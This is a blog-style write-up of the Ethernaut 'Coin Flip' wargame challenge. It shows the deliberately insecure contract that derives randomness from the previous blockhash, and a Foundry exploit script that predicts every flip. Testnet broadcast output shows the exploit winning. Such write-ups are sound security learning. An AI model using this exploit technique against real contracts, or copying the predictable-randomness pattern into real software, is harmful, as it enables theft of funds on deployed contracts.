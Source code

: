 ```yaml
---
layout: post
title: "Coin Flip"
tags: blockchain ethernaut foundry
---
```


# Analysis

---
The goal is

1. guess the correct outcome 10 times in a row.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

Using to `blackhash`value to generate random numbers.

Since this is accessible not only to the contract but also to external users, it becomes predictable.

# Exploit

---

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/CoinFlip.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Ex {
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(CoinFlip coinflip_) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        coinflip_.flip(side);
    }
}

contract CoinFlipSol is Script {
    CoinFlip public coinflip_ = CoinFlip(0x97Cf73B713944bD171aEd799FEDdED4BC5Fd3765);

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        new Ex(coinflip_);
        console.log("Win counts: ", coinflip_.consecutiveWins());
        
        vm.stopBroadcast();
    }
}
```

```bash
$ forge script script/CoinFlipSol.sol --tc CoinFlipSol --broadcast
[⠊] Compiling...
No files changed, compilation skipped
Script ran successfully.

== Logs ==
  Win counts:  10

## Setting up 1 EVM.

==========================

Chain 17000

Estimated gas price: 0.002187102 gwei

Estimated total gas used for script: 123189

Estimated amount required: 0.000000269426908278 ETH

==========================

##### holesky
✅  [Success] Hash: 0x0a5c9241d43f66408948fff9f14bad881a6f1717557f05d693967085b33fc4c9
Contract Address: 0x0BBe439AF9BC57d2358965e1d78B2831290038F9
Block: 3672028
Paid: 0.000000207251214534 ETH (94761 gas * 0.002187094 gwei)

✅ Sequence #1 on holesky | Total Paid: 0.000000207251214534 ETH (94761 gas * avg 0.002187094 gwei)

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.
```

![Image complete]({{site.url}}/images/2025-04-18-Coin_Flip/complete.png)

![Image win]({{site.url}}/images/2025-04-18-Coin_Flip/win.png)